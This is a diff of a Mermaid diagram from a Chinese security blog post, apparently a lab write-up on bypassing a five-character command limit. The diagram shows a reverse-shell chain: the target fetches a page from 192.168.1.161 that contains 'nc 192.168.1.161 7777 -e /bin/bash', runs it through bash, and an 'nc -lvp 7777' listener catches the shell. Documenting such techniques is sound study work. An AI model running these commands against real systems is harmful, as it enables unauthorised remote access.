

The diagram in _posts/2026-04-17-12_长度为5绕过方法解析.md (zigyr/zigyr.github.io), drawn with Mermaid before and after one commit. The commit also changed other lines of this file and 17 other files, not shown here.

````diff
--- a/_posts/2026-04-17-12_长度为5绕过方法解析.md
+++ b/_posts/2026-04-17-12_长度为5绕过方法解析.md
@@ -40,6 +39,6 @@
 ```mermaid
 flowchart LR
 A[目标靶机<br/>192.168.1.6] -->|1.执行预期指令| B[192.168.1.161<br/>开启web服务80端口<br/>默认页面index.html含内容<br/>nc 192.168.1.161 7777 -e /bin/bash]
-B -->|2.将获取的index.html交给bash执行|A
+B -->|2.获取的index.html<br/>并交给bash执行|A
 A -->|3.拿到反弹shell| C[192.168.1.161<br/>通过nc -lvp 7777监听端口]
 ```
````
